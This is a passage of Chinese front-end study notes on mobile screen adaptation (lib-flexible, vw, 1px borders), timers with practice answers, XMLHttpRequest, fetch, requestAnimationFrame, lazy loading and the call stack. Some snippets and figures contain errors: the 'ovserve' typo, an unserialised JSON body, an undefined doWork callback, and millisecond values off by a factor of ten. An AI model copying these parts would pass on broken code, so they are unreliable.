} else if (flexibleEl) {
var content = flexibleEl.getAttribute('content');
if (content) {
var initialDpr = content.match(/initial\-dpr=([\d\.]+)/);
var maximumDpr = content.match(/maximum\-dpr=([\d\.]+)/);
if (initialDpr) {
dpr = parseFloat(initialDpr[1]);
scale = parseFloat((1 / dpr).toFixed(2));
}
if (maximumDpr) {
dpr = parseFloat(maximumDpr[1]);
scale = parseFloat((1 / dpr).toFixed(2));
}
}
}
if (!dpr && !scale) {
var isAndroid = win.navigator.appVersion.match(/android/gi);
var isIPhone = win.navigator.appVersion.match(/iphone/gi);
var devicePixelRatio = win.devicePixelRatio;
if (isIPhone) {
// iOS下，对于2和3的屏，用2倍的方案，其余的用1倍方案
if (devicePixelRatio >= 3 && (!dpr || dpr >= 3)) {
dpr = 3;
} else if (devicePixelRatio >= 2 && (!dpr || dpr >= 2)){
dpr = 2;
} else {
dpr = 1;
}
} else {
// 其他设备下，仍旧使用1倍的方案
dpr = 1;
}
scale = 1 / dpr;
}
docEl.setAttribute('data-dpr', dpr);
if (!metaEl) {
metaEl = doc.createElement('meta');
metaEl.setAttribute('name', 'viewport');
metaEl.setAttribute('content', 'initial-scale=' + scale + ', maximum-scale=' + scale + ', minimum-scale=' + scale + ', user-scalable=no');
if (docEl.firstElementChild) {
docEl.firstElementChild.appendChild(metaEl);
} else {
var wrap = doc.createElement('div');
wrap.appendChild(metaEl);
doc.write(wrap.innerHTML);
}
}
function refreshRem(){
var width = docEl.getBoundingClientRect().width;
if (width / dpr > 540) {
width = 540 * dpr;
}
var rem = width / 10;
docEl.style.fontSize = rem + 'px';
flexible.rem = win.rem = rem;
}
win.addEventListener('resize', function() {
clearTimeout(tid);
tid = setTimeout(refreshRem, 300);
}, false);
win.addEventListener('pageshow', function(e) {
if (e.persisted) {
clearTimeout(tid);
tid = setTimeout(refreshRem, 300);
}
}, false);
if (doc.readyState === 'complete') {
doc.body.style.fontSize = 12 * dpr + 'px';
} else {
doc.addEventListener('DOMContentLoaded', function(e) {
doc.body.style.fontSize = 12 * dpr + 'px';
}, false);
}
refreshRem();
flexible.dpr = win.dpr = dpr;
flexible.refreshRem = refreshRem;
flexible.rem2px = function(d) {
var val = parseFloat(d) * this.rem;
if (typeof d === 'string' && d.match(/rem$/)) {
val += 'px';
}
return val;
}
flexible.px2rem = function(d) {
var val = parseFloat(d) / this.rem;
if (typeof d === 'string' && d.match(/px$/)) {
val += 'rem';
}
return val;
}
})(window, window['lib'] || (window['lib'] = {}));
- 如果不设置 viewport 的 width=device-width，默认 layout viewport（document.documentElement.clientWidth） 和 visual viewport（window.innerWidth） 宽度为 980px。
- 设置 width=device-width 后，layout viewport（document.documentElement.clientWidth） 和 visual viewport（window.innerWidth）宽度都变成和 ideal-viewport 一样了。
- 在 dpr（物理像素 与 CSS像素 比值） 大于 1 的设备上，css 里设置 1px 的边框，会实际使用 2px 的物理像素（因为我们设置了 width=device-width，使视口宽度和理想视口一样。所以举个例子， 750 的物理像素宽度变成了 375，这时候 css 中的 1px 实际使用了 2px 的物理像素 ）。这时候根据 dpr（物理像素 与 CSS像素 比值） 作缩放，visual viewport宽度 = ideal viewport宽度 / 当前缩放值。对 dpr 为 2 的设备，就将其 initial-scale 设置为 0.5，则可以计算出 visual viewport宽度 = ideal viewport宽度 * 2。也就是说 375 * 2 = 750。于是 layout viewport（document.documentElement.clientWidth） 和 visual viewport（window.innerWidth）宽度都乘 2 从 ideal-viewport 的 375 变成了 750，从而实现了 1物理像素 = 1css像素。
- 使用 rem 模拟 vw 特性适配多种屏幕尺寸。rem 是相对于 html 元素的 font-size 来做计算的计算属性值。通过设置 documentElement 的 fontSize 属性值就可以统一整个页面的布局标准。Flexible 将整个页面的宽度切成了 10 份，然后将计算出来的页面宽度的 1/10 设置为 html 节点的 fontSize。
vw vh 方案
- vw(Viewport's width)：1vw 等于视觉视口的 1%
- vh(Viewport's height) :1vh 为视觉视口高度的 1%
- vmin : vw 和 vh 中的较小值
- vmax : 选取 vw 和 vh 中的最大值
如果视觉视口为 375px，那么 1vw = 3.75px，这时 UI 给定一个元素的宽为 75px（设备独立像素），我们只需要将它设置为 75 / 3.75 = 20vw。
可以使用 PostCSS 的 postcss-px-to-viewport 插件来计算。
1px 问题
而在设备像素比大于 1 的屏幕上，我们写的 1px 实际上是被多个物理像素渲染，这就会出现 1px 在有些屏幕上看起来很粗的现象。
- 媒体查询利用设备像素比缩放，设置小数像素；
优点：简单，好理解
缺点：兼容性差，目前之余 IOS8+ 才支持，在 IOS7 及其以下、安卓系统都是显示 0px。
.border { border: 1px solid #999 }
@media screen and (-webkit-min-device-pixel-ratio: 2) {
.border { border: 0.5px solid #999 }
}
@media screen and (-webkit-min-device-pixel-ratio: 3) {
.border { border: 0.333333px solid #999 }
}
- border-image
缺点：需要制作图片，圆角可能出现模糊
border-width：指定边框的宽度，可以设定四个值，分别为上右下左 border-width: top right bottom left;
border-image：该例意为：距离图片上方 2px（属性值上没有单位）裁剪边框图片作为上边框，下方 2px 裁剪作为下边框。距离左右 0 像素裁剪图片即没有边框，以拉伸方式展示。
.border-image-1px {
border-width: 1px 0px;
-webkit-border-image: url("border.png") 2 0 stretch;
border-image: url("border.png") 2 0 stretch;
}
- background-image
缺点：需要制作图片，圆角可能出现模糊
.border_1px{
@media only screen and (-webkit-min-device-pixel-ratio:2){
.border_1px{
background: url(../img/1pxline.png) repeat-x left bottom;
background-size: 100% 1px;
}
}
- box-shadow
优点是没有圆角问题，缺点是颜色不好控制
div {
-webkit-box-shadow: 0 1px 1px -1px rgba(0, 0, 0, 0.5);
}
box-shadow 属性的用法：box-shadow: h-shadow v-shadow [blur] [spread] [color] [inset]
参数分别表示: 水平阴影位置，垂直阴影位置，模糊距离， 阴影尺寸，阴影颜色，将外部阴影改为内部阴影，后四个可选；
该例中为何将阴影尺寸设置为负数。设置成 -1px 是为了让阴影尺寸稍小于 div 元素尺寸，这样左右两边的阴影就不会暴露出来，实现只有底部一边有阴影的效果。从而实现分割线效果（单边边框）。
- viewport + rem
通过设置缩放，让 CSS 像素等于真正的物理像素。例如：当设备像素比为 3 时，我们将页面缩放 1/3 倍，这时 1px 等于一个真正的屏幕像素。
- 伪类 + transform
这种方式可以满足各种场景，如果需要满足圆角，只需要给伪类也加上 border-radius 即可
.border_1px:before{
content: '';
position: absolute;
top: 0;
height: 1px;
width: 100%;
background-color: #000;
transform-origin: 50% 0%;
}
@media only screen and (-webkit-min-device-pixel-ratio:2){
.border_1px:before{
transform: scaleY(0.5);
}
}
@media only screen and (-webkit-min-device-pixel-ratio:3){
.border_1px:before{
transform: scaleY(0.33);
}
}
border-1px($color = #ccc, $radius = 2PX, $direction = all)
position: relative
&::after
content: ""
pointer-events: none
display: block
position: absolute
border-radius: $radius
box-sizing border-box
width 100%
height 100%
left: 0
top: 0
transform-origin: 0 0
if $direction == all
border: 1PX solid $color
else
border-{$direction}: 1PX solid $color
@media only screen and (-webkit-min-device-pixel-ratio:2)
width: 200%
height: 200%
border-radius: $radius * 2
transform: scale(.5)
@media only screen and (-webkit-min-device-pixel-ratio:3)
width: 300%
height: 300%
border-radius: $radius * 3
transform: scale(.333)
定时器
定时器的原理
- 当通过 JavaScript 调用 setTimeout 设置回调函数的时候，渲染进程将会创建一个回调任务，包含了回调函数、当前发起时间、延迟执行时间
- 创建好回调任务之后，再将该任务添加到延迟执行队列中
- 消息队列中上一个任务完成之后，就开始处理延迟队列中的任务，根据发起时间和延迟时间计算出到期的任务，然后依次执行这些到期的任务。等到期的任务执行完成之后，再继续下一个循环过程。
- 取消定时器其实就是根据 id 将延迟队列中的定时器回调任务删除掉
定时器注意事项
- 如果当前任务执行时间过久，会影响定时器任务的执行。所以定时器延迟的时间不是精确的。
- 如果 setTimeout 存在嵌套递归调用，那么系统会设置最短时间间隔为 4 毫秒。在 Chrome 中，定时器被嵌套调用 5 次以上，系统会判断该函数方法被阻塞了，如果定时器的调用时间间隔小于 4 毫秒，那么浏览器会将每次调用的时间间隔设置为 4 毫秒。
- 未激活的页面，setTimeout 执行最小间隔是 1000 毫秒。如果标签不是当前的激活标签，那么定时器最小的时间间隔是 1000 毫秒，目的是为了优化后台页面的加载损耗以及降低耗电量。
- 延时执行时间有最大值。Chrome、Safari、Firefox 都是以 32 个 bit 来存储延时值的，32bit 最大只能存放的数字是 2147483647 毫秒，这就意味着，如果 setTimeout 设置的延迟值大于 2147483647 毫秒（大约 24.8 天）时就会溢出，那么相当于延时值被设置为 0 了，这导致定时器会被立即执行。
- 使用 setTimeout 设置的回调函数中的 this 使用默认绑定，指向 window，如果是严格模式，会被设置为 undefined。this 绑定问题的解决办法：
var name= 1;
var MyObj = {
name: 2,
showName: function(){
console.log(this.name);
}
}
setTimeout(MyObj.showName,1000)
// 第一种办法，用匿名函数
//箭头函数
setTimeout(() => {
MyObj.showName()
}, 1000);
//或者function函数
setTimeout(function() {
MyObj.showName();
}, 1000)
// 第二种办法，bind 绑定
setTimeout(MyObj.showName.bind(MyObj), 1000)
题目
第一题
使用 setTimeout 延迟打印：
- 4 秒后打印消息 'Hello after 4 seconds'
- 8 秒后打印 'Hello after 8 seconds'
- 限制条件：只能定义一个函数，其中包括内联函数。 这意味着多个 setTimeout 调用必须使用完全相同的函数。
答案
const delay = function (t) {
if (t === 4) {
console.log('Hello after 4 seconds')
}
if (t === 8) {
console.log('Hello after 8 seconds')
}
}
setTimeout(delay, 4000, 4);
setTimeout(delay, 8000, 8);
第二题
编写脚本每秒打印消息 'Hello World'，但只打印 5 次。 5次之后，脚本应该打印消息 'Done' 并让节点进程退出。
限制条件：不能使用 setTimeout。
答案
let count = 0;
let t = setInterval(() => {
console.log('Hello World')
count++;
if (count === 5) {
console.log('Done');
clearInterval(t);
}
}, 1000)
第三题
编写脚本以连续打印具有不同延迟的消息 'Hello World'。 以 1 秒的延迟开始，然后每次将延迟增加 1 秒。 第二次将延迟 2 秒。 第三次将延迟 3 秒，依此类推。
在打印的消息中包含延迟时间。 预期输出看起来像：
Hello World. 1
Hello World. 2
Hello World. 3
限制条件：只能使用 const 来定义变量，不能使用 let 或 var。
答案
const delay = function (t = 1) {
setTimeout(() => {
console.log(`Hello World ${t}`);
delay(t + 1);
}, t * 1000)
}
delay();
第四题
编写一个脚本以连续打印消息 'Hello World'，每个主延迟间隔的 5 个消息组。 从前 5 个消息的延迟 100ms 开始，接下来的 5 个消息延迟 200ms，然后是 300ms，依此类推。
以下是代码的要求：
- 在 100ms，脚本将开始打印 'Hello World'，并以 100ms 的间隔进行 5 次。 第一条消息将出现在 100 毫秒，第二条消息将出现在 200 毫秒，依此类推。
- 在前 5 条消息之后，脚本应将主延迟增加到 200ms。 因此，第 6 条消息将在 500毫秒 + 200毫秒（700毫秒）打印，第 7 条消息将在 900 毫秒打印，第 8 条消息将在 1100 毫秒打印，依此类推。
- 在 10 条消息之后，脚本应将主延迟增加到 300 毫秒。 所以第 11 条消息应该在 500ms + 1000ms + 300ms（18000ms）打印。 第 12 条消息应打印在21000ms，依此类推。
- 一直重复上面的模式。
预期的输出看起来像这样：
Hello World. 100 // At 100ms
Hello World. 100 // At 200ms
Hello World. 100 // At 300ms
Hello World. 100 // At 400ms
Hello World. 100 // At 500ms
Hello World. 200 // At 700ms
Hello World. 200 // At 900ms
Hello World. 200 // At 1100ms...
限制条件：只能使用 setInterval ，并且只能使用一个 if 语句。
答案
let lastIntervalId, counter = 5;
const greeting = delay => {
if (counter === 5) {
clearInterval(lastIntervalId);
lastIntervalId = setInterval(() => {
console.log('Hello World. ', delay);
greeting(delay + 100);
}, delay);
counter = 0;
}
counter += 1;
};
greeting(100);
XMLHttpRequest
自己封装一个 ajax 方法：
function ajax({
url,
method = 'GET',
dataType = 'JSON',
headers,
data = null,
}) {
return new Promise((resolve, reject) => {
let xhr = new XMLHttpRequest();
xhr.open(method, url);
xhr.responseType = dataType;
Object.keys(headers).forEach((i) => {
xhr.setRequestHeader(i, headers[i]);
});
// xhr.onreadystatechange = () => {
// if (xhr.readyState === 4 && xhr.status === 200) {
// resolve(xhr.response)
// }
// }
xhr.onload = () => {
if (xhr.status === 200) {
resolve(xhr.response);
} else {
resolve({
Code: xhr.status,
Data: xhr.response,
});
}
};
xhr.onerror = (err) => {
reject(err);
};
xhr.send(data);
});
}
ajax({
url: './test.json',
method: 'get',
}).then(
(res) => {
console.log(res);
},
(err) => {
console.log(err);
}
);
设置请求头
xhr.setRequestHeader() 用来设置请求头。此方法必须在 open() 方法和 send() 之间调用。setRequestHeader 可以调用多次，最终的值不会采用覆盖的方式，而是采用追加的方式。
var client = new XMLHttpRequest();
client.open('GET', 'demo.cgi');
client.setRequestHeader('X-Test', 'one');
client.setRequestHeader('X-Test', 'two');
// 最终request header中"X-Test"为: one, two
client.send();
设置响应的类型
设置 xhr.response 的类型，一个是 level 1 就提供的 xhr.overrideMimeType() 方法，另一个是 level 2 才提供的 xhr.responseType 属性。
xhr.overrideMimeType()
xhr.overrideMimeType() 用来重写 response 的 content-type。
下面是一个获取图片文件的代码示例：
var xhr = new XMLHttpRequest();
//向 server 端获取一张图片
xhr.open('GET', '/path/to/image.png', true);
// 这行是关键
// 将响应数据按照纯文本格式来解析，字符集替换为用户自己定义的字符集
xhr.overrideMimeType('text/plain; charset=x-user-defined');
xhr.onreadystatechange = function (e) {
if (this.readyState == 4 && this.status == 200) {
// 通过 responseText 来获取图片文件对应的二进制字符串
var binStr = this.responseText;
// 然后自己再想方法将逐个字节还原为二进制数据
for (var i = 0, len = binStr.length; i < len; ++i) {
var c = binStr.charCodeAt(i);
// String.fromCharCode(c & 0xff);
var byte = c & 0xff;
}
}
};
xhr.send();
xhr.responseType
xhr.responseType 用来设置 xhr.response 的数据类型。
| 值 | responseType | 说明 |
|---|---|---|
| '' | string 字符串 | 默认值 |
| 'text' | string 字符串 | |
| 'document' | document 对象 | 希望返回 XML 格式数据时使用 |
| 'json' | js 对象 | 存在兼容性问题，IE10/IE11 不支持 |
| 'blob' | Blob 对象 | |
| 'arrayBuffer' | ArrayBuffer 对象 |
下面的例子使用 xhr.responseType 获取一张图片
var xhr = new XMLHttpRequest();
xhr.open('GET', '/path/to/image.png', true);
//可以将`xhr.responseType`设置为`"blob"`也可以设置为`" arrayBuffer"`
//xhr.responseType = 'arrayBuffer';
xhr.responseType = 'blob';
xhr.onload = function(e) {
if (this.status == 200) {
var blob = this.response;
...
}
};
xhr.send();
获取响应数据
xhr 提供了 3 个属性来获取请求返回的数据，分别是：xhr.response xhr.responseText xhr.responseXML
- xhr.response
- 默认值：空字符串""
- 当请求完成时，此属性才有正确的值
- 请求未完成时，此属性的值可能是 "" 或者 null，具体与 xhr.responseType 有关：当 responseType 为 "" 或 "text" 时，值为 ""；responseType 为其他值时，值为 null
- xhr.responseText
- 默认值为空字符串 ""
- 只有当 responseType 为 "text" 或 "" 时，xhr 对象上才有此属性，此时才能调用 xhr.responseText，否则抛错
- 只有当请求成功时，才能拿到正确值。以下 2 种情况下值都为空字符串 ""：请求未完成、请求失败
- xhr.responseXML
- 默认值为 null
- 只有当 responseType 为 "text" 或 "" 或 "document" 时，xhr 对象上才有此属性，此时才能调用 xhr.responseXML ，否则抛错
- 只有当请求成功且返回数据被正确解析时，才能拿到正确值。以下 3 种情况下值都为 null：请求未完成、请求失败、请求成功但返回数据无法被正确解析时
追踪当前请求状态
xhr.readyState 这个属性可以追踪到，每次 xhr.readyState 的值发生变化时，都会触发 xhr.onreadystatechange 事件。
xhr.onreadystatechange = function () {
switch (xhr.readyState) {
case 0: // UNSENT xhr 对象已创建，尚未调用 open() 方法，0 不会触发 onreadystatechange
break;
case 1: // OPENED open() 方法已经被调用
break;
case 2: // HEADERS_RECEIVED send() 方法已经被调用，并且头部和状态已经可获得
break;
case 3: // LOADING 下载中，responseText 属性已经包含部分数据
break;
case 4: // DONE 下载操作已完成
break;
}
};
超时时间
- xhr.timeout 用来设置超时时间。单位毫秒，默认值为 0 ，即没有超时时间。
- 从 xhr.send() 调用后开始计时，xhr.timeout 时间过后还没有结束，则会触发 ontimeout 事件。
- xhr.loadend 触发的时候即请求结束。
获取请求的进度
onprogress 事件来实时显示进度，默认情况下这个事件每 50ms 触发一次。需要注意的是，上传过程和下载过程触发的是不同对象的 onprogress 事件：
- 上传触发的是 xhr.upload 对象的 onprogress 事件
- 下载触发的是 xhr 对象的 onprogress 事件
xhr.onprogress = updateProgress;
xhr.upload.onprogress = updateProgress;
function updateProgress(event) {
if (event.lengthComputable) {
var completedPercent = event.loaded / event.total;
}
}
请求的数据
xhr.send(data) 的参数 data 就是请求发送的数据。
- ArrayBuffer
- Blob
- Document
- DOMString
- FormData
- null
xhr.send(data) 中 data 参数的数据类型会影响请求头部 content-type 的默认值：
- 如果 data 是 Document 类型，同时也是 HTML Document 类型，则 content-type 默认值为 text/html;charset=UTF-8; 否则为 application/xml;charset=UTF-8；
- 如果 data 是 DOMString 类型，content-type 默认值为 text/plain;charset=UTF-8；
- 如果 data 是 FormData 类型，content-type 默认值为 multipart/form-data; boundary=[xxx]
- 如果 data 是其他类型，则不会设置 content-type 的默认值
这些只是 content-type 的默认值，但如果用 xhr.setRequestHeader() 手动设置了中 content-type 的值，以上默认值就会被覆盖。
事件
- 7 个事件
- onloadstart
- onprogress
- onabort
- ontimeout
- onerror
- onload
- onloadend
- xhr 和 xhr.upload 都有上面 7 个事件
- onreadystatechange 是 xhr 独有的事件
| 事件 | 触发条件 |
|---|---|
| onreadystatechange | 每当 xhr.readyState 改变时触发；但 xhr.readyState 由非 0 值变为 0 时不触发 |
| onloadstart | 调用 xhr.send() 方法后立即触发 |
| onprogress | xhr.upload.onprogress 在上传阶段(即 xhr.send() 之后，xhr.readystate=2 之前)触发，每 50ms 触发一次；xhr.onprogress 在下载阶段（即 xhr.readystate=3 时）触发，每 50ms 触发一次。 |
| onload | 当请求成功完成时触发，此时 xhr.readystate=4 |
| onloadend | 当请求结束（包括请求成功和请求失败）时触发 |
| onabort | 当调用 xhr.abort() 后触发 |
| ontimeout | xhr.timeout 不等于 0，由请求开始即 onloadstart 开始算起，当到达 xhr.timeout 所设置时间请求还未结束即 onloadend，则触发此事件 |
| onerror | 在请求过程中，若发生 Network error 则会触发此事件（若发生 Network error 时，上传还没有结束，则会先触发 xhr.upload.onerror，再触发 xhr.onerror；若发生 Network error 时，上传已经结束，则只会触发 xhr.onerror）。注意，只有发生了网络层级别的异常才会触发此事件，对于应用层级别的异常，如响应返回的 xhr.statusCode 是 4xx 时，并不属于 Network error，所以不会触发 onerror 事件，而是会触发 onload 事件。 |
事件触发顺序
-
触发 xhr.onreadystatechange(之后每次 readyState 变化时，都会触发一次)
-
触发 xhr.onloadstart
-
上传阶段开始：
-
触发 xhr.upload.onloadstart
-
触发 xhr.upload.onprogress
-
触发 xhr.upload.onload
-
触发 xhr.upload.onloadend
-
上传结束，下载阶段开始：
-
触发 xhr.onprogress
-
触发 xhr.onload
-
触发 xhr.onloadend
发生 abort/timeout/error 异常的处理
在请求的过程中，有可能发生 abort/timeout/error 这 3 种异常。那么一旦发生这些异常，xhr 后续会进行处理：
-
一旦发生 abort 或 timeout 或 error 异常，先立即中止当前请求
-
将 readystate 置为 4，并触发 xhr.onreadystatechange 事件
-
如果上传阶段还没有结束，则依次触发以下事件：
- xhr.upload.onprogress
- xhr.upload.[onabort 或 ontimeout 或 onerror]
- xhr.upload.onloadend
-
触发 xhr.onprogress 事件
-
触发 xhr.[onabort 或 ontimeout 或 onerror] 事件
-
触发 xhr.onloadend 事件
XMLHttpRequest 运行原理
代码中实例化 XMLHttpRequest 对象后渲染进程会通过 IPC 通知网络进程去执行具体的 http 请求，然后网络进程将执行结果通过 IPC 通知渲染进程，然后渲染进程再将对应的消息和回调函数加入消息队列。
文件上传各种写法
<!DOCTYPE html>
<html lang="en">
<head>
<meta charset="UTF-8" />
<meta name="viewport" content="width=device-width, initial-scale=1.0" />
<title>Document</title>
</head>
<body>
<input type="file" id="uploadInput" />
<script>
const input = document.getElementById('uploadInput');
function fileChange() {
console.log(input.files);
}
input.addEventListener('change', fileChange);
function upload(file, opProgress, onFinish) {
const xhr = new XMLHttpRequest();
xhr.onload = function () {
const resp = JSON.parse(xhr.responseText);
console.log(resp);
onFinish(resp);
};
xhr.open('POST', 'http://test.com/upload');
xhr.upload.onprogress = function (e) {
const persent = Math.floor((e.loaded / e.total) * 100);
console.log(persent);
opProgress(persent);
};
const form = new FormData();
form.append('img', file);
xhr.send(form);
return function cancel() {
xhr.abort();
};
}
function uploadBase64(file, opProgress, onFinish) {
const ext = '.' + file.name.split('.').pop();
const reader = new FileReader();
let xhr;
reader.onload = (e) => {
const base64 = e.target.result.split(',').pop();
xhr = new XMLHttpRequest();
xhr.onload = function () {
const resp = JSON.parse(xhr.responseText);
console.log(resp);
onFinish(resp);
};
xhr.upload.onprogress = function (e) {
const persent = Math.floor((e.loaded / e.total) * 100);
console.log(persent);
opProgress(persent);
};
xhr.open('POST', 'http://test.com/uploadbase64');
xhr.setRequestHeader('content-type', 'application/json');
xhr.send({
ext: ext,
img: base64,
});
};
reader.readAsDataURL(file);
return function cancel() {
xhr.abort();
};
}
function uploadBinary(file, opProgress, onFinish) {
const xhr = new XMLHttpRequest();
xhr.onload = function () {
const resp = JSON.parse(xhr.responseText);
console.log(resp);
onFinish(resp);
};
xhr.open('POST', 'http://test.com/uploadbinary');
xhr.upload.onprogress = function (e) {
const persent = Math.floor((e.loaded / e.total) * 100);
console.log(persent);
opProgress(persent);
};
xhr.setRequestHeader('content-type', 'application/octet-stream');
xhr.setRequestHeader('x-ext', '.' + file.name.split('.').pop());
xhr.send(file);
return function cancel() {
xhr.abort();
};
}
</script>
</body>
</html>
fetch
语法
Promise<Response> fetch(input[, init]);
- input 请求的 url，或者一个 Request 对象
- init 一个对象，包含所有请求设置
- method: 请求使用的方法，如 GET、POST
- headers: 请求头
- body: 请求的 body，POST 请求使用
- mode: 请求的模式，如 cors、 no-cors 或者 same-origin。
- credentials: 请求的 credentials，如 omit、same-origin 或者 include。为了在当前域名内自动发送 cookie ， 必须提供这个选项
- cache: 请求的 cache 模式。 default、 no-store、 reload 、 no-cache 、 force-cache 或者 only-if-cached
- redirect: 可用的 redirect 模式。 follow (默认值，自动重定向), error (如果产生重定向将自动终止并且抛出一个错误）, 或者 manual (手动处理重定向)
- referrer: 可以是 no-referrer、client或一个 URL。默认是 client。
- referrerPolicy: 指定了 HTTP 头部 referer 字段的值。可能为以下值之一： no-referrer、 no-referrer-when-downgrade、 origin、 origin-when-cross-origin、 unsafe-url
// get 请求一张图片
var myImage = document.querySelector('img');
var myHeaders = new Headers();
myHeaders.append('Content-Type', 'image/jpeg');
var myInit = { method: 'GET',
headers: myHeaders,
mode: 'cors',
cache: 'default' };
var myRequest = new Request('flowers.jpg');
fetch(myRequest,myInit).then(function(response) {
...
});
// post 请求
fetch('/api/user', {
method: 'POST',
headers: {
'Content-Type': 'application/json'
},
body: JSON.stringify({
name: 'zzz',
age: '11',
})
})
requestAnimationFrame
基础概念
window.requestAnimationFrame 要求浏览器在下次重绘之前调用指定的回调函数更新动画。为什么需要 window.requestAnimationFrame ？做动画不可避免的会去更改 DOM，而如果在渲染之后再去更改 DOM，那就只能等到下一轮渲染机会的时候才能去绘制出来了，这显然是不合理的。它有以下特点：
- 在下次页面渲染之前调用指定回调；
- 若想在浏览器下次渲染之前继续更新下一帧动画，回调函数内必须再次调用 window.requestAnimationFrame；
- task 执行后可能不会调用 window.requestAnimationFrame。因为 requestAnimationFrame 即不是宏任务，也不是微任务，而是跟随渲染过程的，在事件循环过程中是包含渲染过程的，而 requestAnimationFrame 的触发是在浏览器重新渲染之前；
60fps 与设备刷新率
大多数设备的屏幕刷新率为 60 次/秒。因此，如果在页面中有一个动画或渐变效果，或者用户正在滚动页面，那么浏览器渲染动画或页面的每一帧的速率也需要跟设备屏幕的刷新率保持一致。
因为浏览器渲染每一帧页面速率要和设备屏幕刷新率保持一致，所以每一帧画面渲染的预算时间为 1000 / 60 = 16.66 毫秒。但实际上，浏览器有整理工作要做，因此您的所有工作需要在 10 毫秒内完成。如果无法符合此预算，帧率将下降，并且内容会在屏幕上抖动。 此现象通常称为卡顿，会对用户体验产生负面影响。
闪烁动画
假设我们现在想要快速的让屏幕上闪烁 红、蓝两种颜色，保证用户可以观察到，如果我们用 setTimeout 来写。
setTimeout(() => {
document.body.style.background = 'red';
setTimeout(() => {
document.body.style.background = 'blue';
});
});
但是你会发现无法看到红色的背景，一直都会是蓝色的。因为这两个宏任务直接相隔时间太短了，于是浏览器将两次定时器任务合并，之间只会穿插着微任务的执行，而不会穿插页面的渲染。
如果将内层的定时器的时间改为 17ms，则偶尔可以看到红色闪一下然后变成蓝色。
setTimeout(() => {
document.body.style.background = 'red';
setTimeout(() => {
document.body.style.background = 'blue';
}, 17);
});
这是因为 16 ms 的时间到了，浏览器必须和屏幕刷新率保持一致渲染下一帧画面，所以产生了这样的现象。但是也不是必现的，所以依赖 setTimeout 去做动画渲染是不可靠的。
let i = 10;
let req = () => {
i--;
requestAnimationFrame(() => {
document.body.style.background = 'red';
requestAnimationFrame(() => {
document.body.style.background = 'blue';
if (i > 0) {
req();
}
});
});
};
req();
使用 requestAnimationFrame 切换 10 次颜色，可以看到红色和蓝色的切换一共 10 次。
再看一个例子
setTimeout(() => {
console.log('sto');
requestAnimationFrame(() => console.log('rAF'));
});
setTimeout(() => {
console.log('sto');
requestAnimationFrame(() => console.log('rAF'));
});
queueMicrotask(() => console.log('mic'));
queueMicrotask(() => console.log('mic'));
看起来感觉应该打印如下，因为两次宏任务之间穿插一次渲染：
mic;
mic;
sto;
rAF;
sto;
rAF;
但是实际上打印如下：
mic;
mic;
sto;
sto;
rAF;
rAF;
这个例子更加说明了虽然定时器是宏任务，但是两个执行时机接近的定时器任务会被浏览器合并在一次任务执行，中间不会穿插渲染。
时间分片优化长列表
const total = 100000;
let container = document.getElementById('container');
let count = 30;
let page = Math.ceil(total / 30);
function load(currentTotal) {
if (currentTotal <= 0) return;
let pageCount = Math.min(currentTotal, count); // 最后一次渲染可能少于30，所以取这两者最小值
window.requestAnimationFrame(() => {
for (let i = 0; i < pageCount; i++) {
let li = document.createElement('li');
li.innerHTML = 'something';
container.appendChild(li);
}
load(currentTotal - pageCount);
});
}
load(total);
requestIdleCallback
requestIdleCallback 是 Web API 的一部分，它允许开发者在浏览器空闲时段内执行低优先级的任务，从而避免在高负载时阻塞主线程。
requestIdleCallback(function (deadline) {
while (
(deadline.timeRemaining() > 0 || deadline.didTimeout) &&
tasks.length > 0
) {
var task = tasks.shift(); // 假设 tasks 是一个包含待处理任务的数组
task(); // 执行任务
}
if (tasks.length > 0) {
requestIdleCallback(doWork); // 如果还有任务，则再次请求空闲回调
}
});
注意，requestIdleCallback 有浏览器兼容问题，谨慎使用
IntersectionObserver 实现图片懒加载
IntersectionObserver 是现代浏览器提供的一种强大 API，用于异步监听目标元素与其祖先元素或视口（viewport）交叉状态的变化。这种交叉状态变化通常指目标元素进入或离开视口，或者与其他元素发生重叠。其核心优势在于性能优化，避免了传统滚动事件监听方式带来的大量计算开销。
document.addEventListener('DOMContentLoaded', () => {
const imgs = document.querySelectorAll('img[data-src]');
const imgObserver = new IntersectionObserver(
(entries, observer) => {
entries.forEach((entry) => {
if (entry.isIntersecting) {
const img = entry.target;
img.src = img.dataset.src;
img.removeAttribute('data-src');
imgObserver.unobserve(img);
}
});
},
{
rootMargin: '0px',
threshold: 0.1,
}
);
imgs.forEach((img) => imgObserver.ovserve(img));
});
history
基础使用
window.history.back(); // 向后跳转
window.history.forward(); // 向前跳转
window.history.go(-1); // 跳转到相对当前页面的位置，当前页面标志为 0
window.history.length // history 中记录页面的数量
pushState replaceState window.onpopstate
-
history.pushState(state, title[, url]) 创建一条新的历史记录
- state 是一个 JavaScript 对象，它与 pushState() 创建的新历史记录条目相关联。当使用 pushState 添加新的历史记录后，然后再通过其他后退或者前进触发 popstate 事件，popstate 事件回调函数收到的参数 e 的 state 属性就对应了pushState 传的这个第一个参数
- title 参数会被浏览器忽略，一般传空字符串。
- url 新的历史记录的 url。pushState 调用后当前 url 会被变为这个参数
-
history.replaceState(stateObj, title[, url]) 修改当前历史记录
- stateObj 一个JavaScript对象，它与传递给 replaceState 方法的历史记录实体相关联
- title 参数会被浏览器忽略，一般传空字符串。
- url 当前历史记录的 url 被替换为此 url
-
window.onpopstate
- pushState replaceState 不会触发 popstate 事件，back forward go 会触发 popstate 事件
Image
Image() 函数将会创建一个新的 HTMLImageElement 实例。它的功能等价于 document.createElement('img')
Image(width, height)
width 和 height 参数用来指定宽高的像素值。
function loadImg(url) {
return new Promise((resolve, reject) => {
const img = new Image();
img.src = url;
img.onload = function () {
resolve(img);
}
img.onerror = function (err) {
reject(err);
}
});
}
loadImg(url).then((res) => {
document.body.appendChild(res);
}).catch(err => {
console.log(err)
});
垃圾回收
调用栈
执行栈，也就是在其它编程语言中所说的“调用栈”，是用来管理函数调用关系的一种数据结构，它被用来存储代码运行时创建的所有执行上下文。
- 当 JavaScript 引擎第一次遇到你的脚本时，它会创建一个全局的执行上下文并且压入当前调用栈。每当引擎遇到一个函数调用，它会为该函数创建一个新的执行上下文并压入栈的顶部。
- 引擎会执行那些执行上下文位于栈顶的函数。当该函数执行结束时，执行上下文从栈中弹出，控制流程到达当前栈中的下一个上下文。
- 当分配的调用栈空间被占满时，会引发“堆栈溢出”问题。
var a = 2
function add(b,c) {
return b + c
}
function addAll(b,c) {
var d = 10
result = add(b,c)
return a + result + d
}
addAll(3,6)
- 创建全局上下文，并将其压入栈底。全局上下文的变量环境对象包含 变量 a = undefined；函数 add；函数 addAll。
- 开始执行全局代码。变量 a 赋值变为 2。
